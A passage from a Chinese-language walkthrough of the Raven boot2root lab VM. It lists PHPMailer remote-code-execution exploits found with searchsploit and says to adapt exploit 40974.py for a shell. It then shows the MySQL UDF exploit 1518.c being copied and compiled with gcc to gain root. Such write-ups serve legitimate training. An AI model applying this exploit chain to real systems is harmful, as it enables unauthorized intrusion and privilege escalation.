  ``````
CONGRATULATIONS on successfully rooting Raven!

This is my first Boot2Root VM - I hope you enjoyed it.

Hit me up on Twitter and let me know what you thought:

@mccannwj / wjmccann.github.io
``````
## 0x07
思路2 利用php漏洞获取shell权限
``````
searchsploit PHPMailer --exclude='(PoC)|/dos/'
------------------------------------------------------------------------ ----------------------------------------
 Exploit Title                                                          |  Path
                                                                        | (/usr/share/exploitdb/)
------------------------------------------------------------------------ ----------------------------------------
PHPMailer < 5.2.18 - Remote Code Execution (Bash)                       | exploits/php/webapps/40968.php
PHPMailer < 5.2.18 - Remote Code Execution (PHP)                        | exploits/php/webapps/40970.php
PHPMailer < 5.2.18 - Remote Code Execution (Python)                     | exploits/php/webapps/40974.py
PHPMailer < 5.2.19 - Sendmail Argument Injection (Metasploit)           | exploits/multiple/webapps/41688.rb
PHPMailer < 5.2.20 - Remote Code Execution                              | exploits/php/webapps/40969.pl
PHPMailer < 5.2.20 / SwiftMailer < 5.4.5-DEV / Zend Framework / zend-ma | exploits/php/webapps/40986.py
PHPMailer < 5.2.20 with Exim MTA - Remote Code Execution                | exploits/php/webapps/42221.py
PHPMailer < 5.2.21 - Local File Disclosure                              | exploits/php/webapps/43056.py
WordPress PHPMailer 4.6 - Host Header Command Injection (Metasploit)    | exploits/php/remote/42024.rb
------------------------------------------------------------------------ ----------------------------------------
``````
利用exploits/php/webapps/40974.py 修改获取登录权限
按照说明操作 获取登录
利用michael中的 mysql提权root权限
``````
searchsploit MySQL UDF  --exclude='(PoC)|/dos/'
------------------------------------------------------------------------ ----------------------------------------
 Exploit Title                                                          |  Path
                                                                        | (/usr/share/exploitdb/)
------------------------------------------------------------------------ ----------------------------------------
MySQL 4.0.17 (Linux) - User-Defined Function (UDF) Dynamic Library (1)  | exploits/linux/local/1181.c
MySQL 4.x/5.0 (Linux) - User-Defined Function (UDF) Dynamic Library (2) | exploits/linux/local/1518.c
MySQL 4/5/6 - UDF for Command Execution                                 | exploits/linux/local/7856.txt
------------------------------------------------------------------------ ----------------------------------------

cp /home/yg/Sec/exploitdb/exploits/linux/local/1518.c ./raptor_udf2.c
gcc -g -shared -Wl,-soname,raptor_udf2.so -o raptor_udf2.so raptor_udf2.c -lc
``````
按照explot操作1518.c说明改动命令权限 获取root权限